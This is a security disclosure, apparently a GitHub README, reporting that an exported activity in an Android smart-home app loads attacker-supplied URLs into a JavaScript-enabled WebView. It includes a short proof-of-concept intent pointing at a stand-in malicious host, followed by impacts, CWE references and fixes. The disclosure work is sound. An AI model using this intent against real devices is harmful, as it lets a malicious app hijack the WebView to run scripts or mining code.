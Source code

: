 ## Vulnerability Report   

### Introduction:
This vulnerability report outlines a security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`.

A remote attacker can execute arbitrary code via insecure intent handling.


### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The com.mm.android.easy4ip.MainActivity activity within the com.mm.android.smartlifeiot app blindly loads URLs provided through intent data. 

A malicious third-party app can exploit this oversight to trigger the loading of malicious web content, initiating unauthorized JavaScript web browser mining operations or remote code execution within the WebView.

**No permissions are required since the activity is exported.**

### Proof of Concept:

 ![image](https://github.com/actuator/imou/blob/main/pocGIF.gif)
 
A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:


Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);


Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
**this.url = getIntent().getExtras().getString("url");**


2. JavaScript execution is enabled in the WebView:

**this.webView.getSettings().setJavaScriptEnabled(true);**

3. Direct web content loading with the fetched URL:

**progressWebView.loadUrl(str);**


### Impact:

An attacker can exploit this vulnerability to:

Execute arbitrary JavaScript within the app's context, leading to remote code execution.

Start unauthorized web browser mining operations, consuming device resources and potentially earning cryptocurrency for the attacker.

Access the internet from a victim's device without necessary permissions in the malicious app's manifest.

### MITRE CWE References:

- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**



 
